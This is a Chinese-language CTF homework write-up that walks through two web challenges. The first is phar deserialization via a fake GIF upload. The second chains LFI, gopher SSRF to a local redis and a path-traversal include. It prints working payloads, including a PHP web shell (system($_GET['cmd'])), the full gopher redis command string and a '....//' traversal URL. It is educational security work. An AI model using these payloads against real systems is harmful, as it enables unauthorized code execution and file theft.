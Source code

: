 ###### tags: `ctf`
# Hw6 write_up

## ID
bruce30709
## Rero Meme
本題是我們把.gif圖片丟到server端後，再顯示出來的網頁， 他可以攻擊的地方是把php code偽裝成.gif上傳至server中，而這個偽裝的.gif要使用phar去生成一個包含php指令的文件，要注意的是在寫phar的時候，要setStub('GIF89a <?php __HALT_COMPILER();?> ')，這樣上傳時server才能辨別是gif檔。

接著把你產生好的(假)gif檔，傳到server上，要記得取一個好記點的title，因為它會是上傳的gif的新檔名XD。

![](https://i.imgur.com/WxGMnY8.png)

接著要送post request給server後端的username，代的value要放phar://aaa/77777.gif，也就是後端(假)gif的位置
![](https://i.imgur.com/OxmGh9w.png)
console去送出form request
![](https://i.imgur.com/WoOyLyF.png)

這樣就可以利用mkdir username的時候執行phar內的code，我裡面是我裡面是跟投影片的例子一樣去new一個名稱一樣的MEME class並且在裡面代參數，__destruct()會在images/aaa/去建立a.php(自己取的名稱)檔案，裡面直接用"<?php system('cat /f*') ?>"把flag印出來。

![](https://i.imgur.com/pDbprXN.png)

直接去images/aaa/a.php就拿到flag啦~


## 陸拾肆基底編碼之遠端圖像編碼器
本題是一個會把你的輸入變成base64加密後的圖片的網頁，我首先是觀察url的變化，發現輸入錯誤資訊時，會有報錯提示，他有告訴我們2個位置，/var/www/html/index.php和/var/www/html/page/result.inc.php，我就想到可以用LFI的方法去看原始碼。

方法為在快速轉換的input欄位用 file:// 的方法輸入。
![](https://i.imgur.com/DXutVEv.png)

然後把得到的response去base64 decoder，就可以得出內容。

![](https://i.imgur.com/mfMJIEQ.png)

程式碼中有提示是要去找本機的service，我就想到用 file:///proc/net/tcp 去查本機的tcp port，發現127.0.0.1:27134這個port也就是redis服務特別的忙綠，所以知道要使用他。

我是用 gopher:// 去連線，然後發現要把ip轉16進位才能過。
最先是flush掉先前db的東西，然後用set插入php script<?php system($_GET['cmd']);?>，接著改變dbfile名稱為test.inc.php( 因為程式碼會要求要是inc.php結尾 )跟dir路徑/tmp，最後用save儲存quit離開，以下是我的payload ，要注意的點是要使用urlencode再送出。
```
gopher://0x7F.0x00.0x00.0x01:27134/
_flushall%0D%0ASET%20x%20"<?php system($_GET['cmd']);?>
"%0D%0Aconfig%20set%20dir%20/tmp%0D%0A
config%20set%20dbfilename%20test.inc.php%0D%0Asave%0D%0Aquit%0D%0A
```
然後再用ls看到flag在根目錄下，最後用以下url去拿flag，要注意的是要用\.\.\.\.//來繞過程式碼中replace string" \.\./ "to""的限制。
```
http://base64image.splitline.tw:8894/?
page=....//....//....//....//tmp/test&cmd=cat%20/flag*
```

就可以拿到flag!

![](https://i.imgur.com/p9iW4c5.png)

